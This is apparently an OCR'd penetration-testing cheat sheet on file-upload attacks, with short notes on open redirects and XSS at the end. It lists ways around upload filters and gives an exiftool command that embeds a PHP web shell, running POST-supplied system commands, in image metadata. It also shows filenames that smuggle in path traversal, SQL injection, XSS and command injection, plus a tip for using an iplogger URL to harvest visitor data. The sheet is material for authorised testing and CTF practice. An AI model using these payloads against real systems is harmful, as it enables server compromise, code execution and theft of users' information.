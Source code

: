 ```https://d00mfist1.gitbooks.io/ctf/content/basics_of_linux.html
				PNG / JPEG: Pixel flood attack (DoS)
				ZIP: RCE via LFI / DoS
				PDF / PPTX: SSRF / BLIND XXE

            	Exploiting file uploads
            	-----------------------
            		-Changing the extension of the upload file
            		-Try using double extensions eg file.pdf.php
            		-Changing the content type header of the upload file eg application/pdf to application/x-php image/png , text/plain , application/octet-stream
            		-Add a semicolon after the first extension file.asp;.jpg
            		-Adding magic bytes at the beginning of the upload file
            		-Adding null bytes and other special chars  to the filename to achieve blocked extensions 0x00 or %0d,%0a,%00,\x00
            		-Mixing the filename to upper and lowercase
            		-Check whether the backend is replacing chars which can be exploited using “file.php”  > “file.p.phphp”
            		-Try to replace existing files by including existing filenames or  paths in the file name like ../favicon.ico
            		-Check other variations of the extension you are uploading like php5,php4
            		-if the metadata of the file can be leveraged,change the metadata using
            			exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg

            		The maximum length of a filename in linux is 255, however, wget truncate the filenames to 236 characters. You can download a file called "A"*232+".php"+".gif", this filename will bypass the check (as in this example ".gif" is a valid extension) but wget will rename the file to "A"*232+".php".

            		Set filename to ../../../tmp/lol.png and try to achieve a path traversal
					Set filename to sleep(10)-- -.jpg and you may be able to achieve a SQL injection
					Set filename to <svg onload=alert(document.comain)> to achieve a XSS
					Set filename to ; sleep 10; to test some command injection (more command injections tricks here)
					****XSS in image (svg) file upload
					JS file upload + XSS = Service Workers exploitation
					****XXE in svg upload****
					****Open Redirect via uploading svg file
					Famous ImageTrick vulnerability
					If you can indicate the web server to catch an image from a URL you could try to abuse a SSRF. If this image is going to be saved in some public site, you could also indicate a URL from https://iplogger.org/invisible/ and steal information of every visitor.
					XXE and CORS bypass with PDF-Adobe upload
					Specially crafted PDFs to XSS: The following page present how to inject PDF data to obtain JS execution. If you can upload PDFs you could prepare some PDF that will execute arbitrary JS following the given indications.





    OPEN REDIRECTS IN URL
        http://example.com/dir/
        http://example.com//dir -> Might lead to http://dir since every link starting with // is changed to http:// or https://
    Check every status code .A website might say 404 but the status code is 200n


    CROSS SITE SCRIPTING(XSS)
    TIPS
        Just add pure html first
        Then try closing tags
```
